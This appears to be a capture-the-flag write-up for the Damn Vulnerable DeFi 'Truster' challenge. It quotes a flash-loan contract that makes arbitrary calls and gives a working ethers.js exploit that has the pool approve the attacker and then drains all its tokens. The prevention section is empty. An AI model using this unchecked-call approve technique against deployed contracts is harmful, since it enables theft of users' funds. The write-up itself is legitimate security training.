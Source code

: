 ## What is our mission
More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

The pool holds 1 million DVT tokens. You have nothing.

To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

<br/>

## What are the smart contracts 
**`TrusterLenderPool.sol`**: smart contract that includes **`flashLoan(...)`** function 

<br/>


## Solution 
**1.** **`TrusterLenderPool.sol`** contract's **`flashLoan(...)`** function 

``` solidity
function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
```

**2.** The vulnarability cames from, **`TrusterLenderPool.sol`** contract's **`flashLoan(...)`** function.

**`TrusterLenderPool.sol`** contract **doesn't check** what are the 
**`address target`** 
&
**`bytes calldata data`** 
variables are.

⚠️ This is a vulnarability

pass **DVT token address** to **`address target`** variable.

pass **function approve(address to, uint256 amount)** to **`bytes calldata data`** variable.

And this will call **`approve`** function inside **`DVT token contract`**. And we will be able to transfer all tokens out of the pool 👌

<br/>

Here how you can do it,

```js
// test/truster/truster.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */

        let abi = ["function approve(address to, uint256 amount)"];

        let iface = new ethers.utils.Interface(abi);

        const data = iface.encodeFunctionData("approve", [
        player.address,
        TOKENS_IN_POOL,
        ]);

        // we will aprove 'TOKENS_IN_POOL' tokens to 'player.address' after this call
        await pool.flashLoan(0, player.address, token.address, data);
        
        // transfer tokens from pool.address to player.address
        await token
        .connect(player)
        .transferFrom(pool.address, player.address, TOKENS_IN_POOL);

    });
```;
```

<br/>

## How could this exploit be prevented ?



<br/>


## How to test it
got to ➡️ [**Damn Vulnerable Defi - Chalange #1**](https://www.damnvulnerabledefi.xyz/challenges/3.html). Clone the repository as mentioned and put [**solution code**](Solution.txt) to his place.

Then you can just type **`npm run truster`**
